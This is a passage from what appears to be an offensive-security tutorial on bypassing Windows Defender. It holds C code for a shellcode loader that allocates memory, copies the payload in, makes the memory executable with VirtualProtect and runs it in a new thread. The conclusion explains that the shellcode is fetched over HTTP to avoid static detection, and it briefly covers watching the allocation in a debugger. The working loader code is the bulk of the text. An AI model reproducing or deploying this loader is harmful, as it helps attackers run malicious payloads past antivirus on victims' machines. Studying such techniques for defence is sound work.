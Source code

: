 2 —We will allocate memory of the payload size using VirtualAlloc with read and write permissions. Subsequently, we copy the payload bytes to the allocated memory using memcopy and memset. The memory permission is then modified to allow execution with VirtualProtect. Following this, a thread is created using CreateThread, and WaitForSingleObject is employed to ensure the process continues until the entire payload has been executed.

```c
PVOID pShellcodeAddress = VirtualAlloc(NULL, sPayloadSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (pShellcodeAddress == NULL) {
        printf("[!] VirtualAlloc Failed With Error : %d \n", GetLastError());
        return -1;
    }

    printf("[*] Allocated Memory in 0x%p \n", pShellcodeAddress);
    getchar();

    memcpy(pShellcodeAddress, pPayloadBytes, sPayloadSize);
    memset(pPayloadBytes, '\0', sPayloadSize);

    printf("[*] Payload Writed in Memory Allocated...");

    DWORD dwOldProtection = NULL;

    if (!VirtualProtect(pShellcodeAddress, sPayloadSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
        printf("[!] VirtualProtect Failed With Error : %d \n", GetLastError());
        return -1;
    }

    HANDLE hThread = CreateThread(NULL, 0, LPTHREAD_START_ROUTINE(pShellcodeAddress), pShellcodeAddress, 0, NULL);
    if (hThread == NULL) {
        printf("[!] CreateThread Failed With Error : %d \n", GetLastError());
        return -1;
    }

  	WaitForSingleObject(hThread, INFINITE);
    return 0;
}
```

# Conclusion
In the context of Windows Defender bypass, this occurs by circumventing static analysis, as the shellcode is not directly written within the code. Instead, it makes a request and fetches the shellcode via an HTTP request; also, the memory protection is altered at runtime. Note that this technique in no way will evade more sophisticated defense solutions, such as EDRs.
A method was also demonstrated to capture what is allocated in memory at runtime using a debugger.
In this process, the debugger is used to monitor and analyze dynamic memory allocation during program execution. By setting breakpoints, inspecting registers, and traversing the code, it is possible to observe the addresses and contents of memory regions as they are allocated and manipulated at runtime.